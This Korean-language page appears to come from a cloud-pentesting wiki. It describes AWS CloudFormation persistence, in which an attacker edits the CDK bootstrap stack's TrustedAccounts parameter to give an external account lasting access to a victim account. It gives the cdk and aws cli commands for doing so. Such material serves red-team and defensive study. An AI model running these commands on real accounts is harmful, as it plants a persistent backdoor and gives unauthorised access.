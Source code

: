 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

For more information, access:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK는 `CDKToolkit`라는 CFN 스택을 배포합니다. 이 스택은 외부 계정이 피해자 계정에 CDK 프로젝트를 배포할 수 있도록 하는 `TrustedAccounts` 파라미터를 지원합니다. 공격자는 이 설정을 악용해 자신에게 피해자 계정에 대한 무기한 접근 권한을 부여할 수 있으며, 이는 파라미터를 변경하여 스택을 재배포하기 위해 AWS cli 또는 AWS CDK cli를 사용하는 방식으로 수행할 수 있습니다.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
